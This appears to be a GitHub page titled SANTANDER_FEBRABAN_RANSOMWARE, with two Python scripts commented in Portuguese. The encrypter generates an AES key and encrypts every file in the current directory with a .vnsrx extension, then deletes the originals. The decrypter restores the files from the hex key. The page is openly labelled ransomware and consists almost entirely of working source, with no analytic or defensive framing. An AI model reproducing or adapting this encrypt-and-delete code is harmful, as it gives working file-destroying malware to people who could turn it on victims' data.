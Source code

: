# SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER

import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
   """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
   return os.urandom(length)

def encrypt_file(file_name, key):
   # Lê os dados do arquivo
   with open(file_name, "rb") as file:
       file_data = file.read()

   # Cria um objeto AES com AES-256
   aes = pyaes.AESModeOfOperationCTR(key)

   # Criptografa os dados
   encrypted_data = aes.encrypt(file_data)

   # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
   new_file_name = file_name + ".vnsrx"
   with open(new_file_name, "wb") as file:
       file.write(encrypted_data)

   print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo criptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo original
       os.remove(file_name)
       print(f"Arquivo original {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
   # Gera uma chave aleatória de 32 bytes
   key = generate_random_key(32)

   print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

   # Nome do arquivo do script
   script_name = os.path.basename(__file__)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Ignora diretórios, arquivos já criptografados e o próprio script
       if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
           encrypt_file(file_name, key)

   print("Todos os arquivos foram criptografados.")

if __name__ == "__main__":
   main()

DECRYPTER

import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()
